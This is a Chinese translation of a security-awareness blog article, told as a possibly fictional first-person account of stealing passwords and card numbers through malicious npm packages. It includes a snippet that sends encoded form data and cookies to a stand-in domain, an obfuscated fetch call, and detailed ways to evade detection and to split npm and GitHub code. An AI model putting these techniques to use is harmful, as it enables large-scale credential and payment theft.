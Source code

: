 # 我是如何从你的网站盗取银行卡和密码的
> 译者：本文翻译自[hackermoon上的文章](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5)，希望本文能唤起广大前端工作者的安全意识，以下为正文:

*** 

> 以下是一个真实的故事。或者它可能只是基于一个真实的故事。也许这根本不是真的。

这是一个疯狂的安全恐慌周——似乎每天都有一个新的漏洞。当家里人询问我相关的事情时，我需要假装我很懂行，这真的让我感到很煎熬。

看到与我亲近的人都在忧虑“被盗窃”，这确实让我有所感触。

所以，我怀着沉重的心情，决定干净利落地告诉你，我过去几年是如何偷你的网站上的用户名，密码和信用卡号码。

***

恶意代码本身非常简单，当它在满足以下条件的页面上运行时，它就能发挥作用：

* 该页面有一个\<form>标签
* 一个input[type="password"]元素，或者name属性为"cardnumber"或"cvc"的元素等
* 该页面包含“信用卡”，“结账”，“登录”，“密码”等字样。

然后，当密码/信用卡字段上出现"blur"事件或form标签上监听到"submit"事件时，我的代码：

* 获取页面上的所有表单字段（document.forms.forEach(…)）
* 获取document.cookie
* 将这些信息变成随机的字符串：
```jsx
 const payload = btoa(JSON.stringify(sensitiveUserData))
```
* 然后将其发送到`https://legit-analytics.com?q=${payload}`（当然这不是真正的域名）

简而言之，只要是看起来对我有价值的数据，我就会把它发送到我的服务器。

***

2015年时，当我第一次编写这段代码时，它毫无用处，只能躲在我电脑里。我需要把它散布到这个世界，进入你的网站。

用Google的一句话：如果攻击者成功注入了任何代码，那么游戏结束了！

XSS规模太小，而且已经被针对保护得很好了。

Chrome扩展程序也是被限制地死死的。

幸运的是，我们生活在一个人人都使用npm的时代，就像他们磕止痛药一样。

*** 

所以，npm是我的散布方法。我需要创造一些有用的开源软件，让人们不假思索地安装——我的特洛伊木马。

人们喜欢漂亮的颜色 - 这是我们与狗之间的区别 - 所以我写了一个包，让你以任何颜色登录控制台。

![图片](https://github.com/luke93h/git-blog/blob/master/imgs/console.png?raw=true)

我很兴奋 - 我有一个引人注目的npm包 - 但我不想等待人们慢慢发现，并传播这个包。所以我开始为现有的包添加PR，将我的彩色包添加到它们的依赖项中。

我为数百个前端包或者他们的依赖项添加PR（当然是用各种用户帐户，而不是全用“David Gilbertson”这个用户名）：“嘿，我已经解决了问题x，并且还添加了一些日志记录。”

看，我正在为开源做贡献！

有很多敏感的人告诉我，他们不想要新的依赖，但这是能预期的，这是一个数字游戏。

总体而言，我取得了巨大成功，我的彩色控制台代码现在23个软件包依赖。其中一个软件包本身被广泛的依赖 - 我的摇钱树。我不会说出它的名字，但你可以说它是在填充我的金库。

这只是一个包。我还有其他6个包正在运作着。

我现在每月大约被下载120,000次，我很自豪地宣布，我那些可恶的代码每天都在数千个网站上执行，包括少数Alexa-top上前1000网站，它们向我发送大量用户名，密码和信用卡明细。

***

回顾那些黄金岁月，我无法相信人们为了将跨站代码放入单个站点而花费大量精力。在我的前端朋友的帮助下，我将恶意代码发送到数千个网站非常容易。

<h1>你可能会对我的盗窃提出一些疑问......</h1>

<h2>我注意到了发出的网络请求！</h2>

你会在哪里注意到它们？当DevTools打开时，我的代码不会发送任何内容（即使没有被展开）。

我把这称为海森堡机动：如果你试图观察我代码的行为，我代码的行为将会发生改变。

在localhost或任何IP地址上运行时，或者域名中包含dev，test，qa，uat或staging（由\b字边界包围）等字样时，它也保持静默。

<h2>但渗透测试人员会在他们的HTTP请求监控工具中看到它！</h2>

他们几个小时工作？我的代码在工作日的早上7点到晚上7点之间没有发送任何内容。我的收获减半了，但减少了95％被抓的机会。

而且，你的凭证我只需要一次。因此，我在一台设备上发起请求后，我记下了它（本地存储和cookie），该设备再也不会发起请求过。

即使有一些勤奋的测试人员不断地（在周末）清除cookie和本地存储，我也只是间歇性地发送这些请求（大约七次，轻微随机化 ）。

此外，该网址看起来很像您网站对其他300个广告发起的网络请求。

也许你有一个自动测试程序，每周7天每天24小时填写付款表格并检查可疑的网络请求。你好。您使用的是PhantomJS，Selenium，W​​ebDriver还是friends？抱歉，它们都为窗口添加了易于检测的属性，因此在检测到后，我不会发送任何内容。

关键是，仅仅因为你没有看到它，并不意味着它没有发生。这已经两年多了，据我所知，至今为止没有任何人注意到我的请求。也许它一直在你的网站上:)

（有趣的是，当我查看我收集的所有密码和信用卡号码，并将它们捆绑起来在黑暗网上出售时，我必须过滤我自己的信用卡号码和用户名，以防我出卖了我自己。真是讽刺！）

<h2>我会在你的GitHub源代码中看到它！</h2>

你的单纯温暖了我的心。

但是很遗憾，将一个版本的代码发送到GitHub，并将其他版本发送到npm是完全可行的。

在我的package.json中，我将files属性指向包含压缩代码的lib文件夹 - 这是npm publish命令将发送给npm服务器的文件夹。但是lib在我的.gitignore中，它永远不会被推送到GitHub。这是一种很常见的做法，因此如果您在GitHub上阅读这些文件，它看起来一点都不可疑。

这不是一个npm问题，即使我没有向npm和GitHub推送不同的代码，谁能保证你所看到的/lib/package.min.js是/src/package.js压缩后的真正结果？

所以很抱歉，你不会在GitHub上的任何地方找到我那可恶的代码。

<h2>我读了node_modules中所有压缩后的源码！</h2>

好了，现在你只是在单纯的找茬。但也许你认为你可以写一些聪明的代码，自动检查代码是否有任何可疑之处。

你仍然不会在我的源代码中发现任何有意义的东西，在我代码中的任何地方fetch或XMLHttpRequest 任何地方，或者我要发送到的域名。我的fetch代码如下所示：

```jsx
const i = 'gfudi';
const k = s => s.split('').map(c => String.fromCharCode(c.charCodeAt() - 1)).join('');
self[k(i)](urlWithYourPreciousData);
```

“gfudi”只是“fetch”，每个字母向前移动一位。解密方法就在上面。self只是window的别名。

你也可以用self['\u0066\u0065\u0074\u0063\u0068'](...)来表示fetch(...)。

重点是：你更本没有任何机会，在混淆的代码中发现可疑的代码。

（尽管如此，实际上我并没有使用平凡的fetch，如果可以，我更喜欢用new EventSource(urlWithYourPreciousData)。这样即使你是偏执狂并通过使用serviceWorker听取fetch事件来监控出站请求，我也会紧接着。我只是不为支持serviceWorker但不支持的浏览器发送任何内容EventSource。）

